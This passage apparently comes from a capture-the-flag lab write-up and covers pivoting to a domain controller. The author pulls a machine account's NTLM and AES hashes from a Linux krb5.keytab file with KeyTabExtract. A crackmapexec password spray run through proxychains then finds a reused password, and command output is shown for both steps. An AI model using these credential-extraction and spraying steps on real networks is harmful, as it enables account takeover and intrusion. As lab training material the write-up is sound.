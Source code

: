 # Pivoting to the DC

Now that we have completely compromised the `FRAJMP` jumpbox, we can extract a very important piece of information on domain-joined Linux machines that I learned to exploit during [Hybrid](https://dan-feliciano.com/2024/06/05/hybrid/).

There's a file that exists on domain-joined Linux machines called `krb5.keytab`, which contains secrets to the machine account. If this file is decrypted, we can view the machine accounts NT hash. This machine account has the potential to have privileges that can lead us to the DC.

We can use a tool called [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) for this. The Python script associated with this allows us to match key values with their encryption types, varying from different types of AES encryption algorithms. Once decrypted with the keytab file (you can download this to your local machine using Sliver), you should receive an output similar to the below.

```
└─$ python3 KeyTabExtract/keytabextract.py krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HERON.VL
        SERVICE PRINCIPAL : FRAJMP$/
        NTLM HASH : 6f55b[...snip...]e8254f7
        AES-256 HASH : 7be44e62e24[...snip...]a3050dd586130e7
        AES-128 HASH : dcaae[...snip...]6cbd0cd
```

Now that we have this machine account we would be able to use it in a variety of different domain escalation tactics if `FRAJMP$` has any privileges over any other domain objects.

That being said, we actually are not required to do this. I did some testing with `crackmapexec` to see if their was any password reusage on the `_local` user credentials that we have and came back with a successful result to a new user.

```
└─$ proxychains4 crackmapexec smb 10.10.220.53 -u full_ul.txt -p '(_local PASSWORD)' --continue-on-success
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.220.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.220.53:135  ...  OK
......
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.220.53:445  ...  OK
SMB         10.10.220.53    445    MUCDC            [+] heron.vl\Julian.Pratt:[...snip...]
```

As you can see, the `Julian.Pratt` user seems to have the same password as the `_local` user on the jumpbox. We can assume that `Julian.Pratt` (with him being the head of IT) was attempting to try and set up an SSH connection to `FRAJMP` using PuTTY.

Since we have access to this user now with his credentials, we can login to his home directory that is being hosted on SMB.
